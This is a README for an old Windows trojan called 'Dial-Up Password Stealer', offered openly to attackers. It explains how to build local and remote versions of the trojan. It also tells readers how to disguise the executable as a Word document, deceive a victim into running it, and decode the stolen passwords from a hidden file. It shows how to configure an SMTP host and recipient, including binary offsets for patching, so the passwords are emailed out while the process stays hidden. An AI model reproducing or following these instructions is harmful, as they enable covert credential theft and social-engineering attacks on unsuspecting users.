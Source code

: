 Dial-Up Password Stealer v1.0 by Stas
=====================================

Coded by Stas (Mail: stas@grad.icmc.sc.usp.br; URL: http://sysd.hypermart.net);
(C)opyLeft by SysD Destructive Labs, 1997-2000


Intro:
======

Here is an assembly-coded (TASM50) trojan that will steal Dial-Up passwords
from Windows' password cache (if some dickhead dropped them there, sure).
The package consists in Local and Remote version. To compile both, type
"make". To compile only Local version, type "make local". I'll not say how
to compile only Remote version, this will be your homework >:)
So, what the fuckin' difference between those versions? Well...


Usage:
======

a). If you can access personally computer whitch password you wanna steal,
use local.exe. Put it on a floppy. It looks like Word document, ya? So...
Insert that floppy in victim computer, saying like:
"Oh, damn, I **MUST** read this document **NOW**!!!".
Double-click it, and Windows says that disk is damaged. That's right, but the
only damage is hidden/system file A:\OUT.$$$ containing all stolen passwords.
If open that in Notepad, you'll se only binary waste. Now, try to XOR all bytes
using mask 0xFF ;)

b). If you wanna steal password of some connected asshole, use remote.exe.
It will send you stolen passwords through email. Sure, before sending trojan
to victim, configure it, otherwise you're expanding my growing list of stolen
passwords. "How to do that?" -- Take a snoop in remote.asm. It has likes like:

    HOST		EQU	143,107,231,17		; IP addr bytes
    PORT		EQU	25 * 100h		; htons(IPPORT_SMTP)

This specifies your SMTP server. Note that oyu can't put domain names here,
cos' I didn't made support for this, as I think it's quite useless.
Now, seek for "Rcpt" in remote.asm. It looks like:

    Rcpt		DB	"stas", 64 - ($ - Rcpt) DUP (0)

Just put your recipient address here.
"And what can I do if I have no TASM50?" -- Use any hex editor. That will be
a pain in your ass, so it's better to get Turbo Assembly 5.0...
Anyway: HOST stays at offset 0x628 (4 bytes); PORT at 0x626 (2 bytes, and
remember: it's htons()'ed!!!); and a recipient address at 0x634 (note that
I left you 64 bytes to do that, and remember that you **MUST** have a NULL
at end!).

NOTE: If user executes remote.exe while not-connected, the trojans hides itself
and attempts to send mail every minute for one day.


That's all 'bout it... Have a fun!!! Remember that I'm not responsable for
any harm that my proggies or even you did. Note also that I'll **NOT** answer
questions like: "What does mean 0x634?" and "Why didn't you included Turbo
Assembler 5.0 in your package?". If you read this file and not understood it,
just go to www.altavista.com and seek for a better trojan.


References:
===========

* Password dump code from PWLView by Wagner Patriota G. Soares.
* Proccess hider by CybOrgAsm.
* Some TCP/IP stuff from IIS 4.0 remote overflow exploit by dark spyrit
* Other TCP/IP stuff from Talk by Jimmy Moore
